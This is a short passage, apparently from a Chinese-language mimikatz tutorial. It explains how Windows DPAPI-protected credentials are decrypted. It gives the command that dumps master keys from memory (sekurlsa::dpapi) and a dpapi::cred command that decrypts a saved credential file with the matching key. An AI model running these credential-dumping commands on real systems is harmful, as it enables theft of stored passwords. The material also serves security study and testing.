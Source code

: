 pbData 是我们要解密的数据，guidMasterKey 是解密所需要的密钥,找到对应的 Masterkey 才能解密

根据上面的 guidMasterKey 来确定其对应的 MasterKey, 如下所示
```
sekurlsa::dpapi
```

![](../../../assets/img/Security/安全工具/mimikatz/14.png)

```
dpapi::cred /in:C:\Users\USERNAME\Desktop\test\SESSIONID /masterkey:对应GUID的masterkey"
```

![](../../../assets/img/Security/安全工具/mimikatz/15.png)

---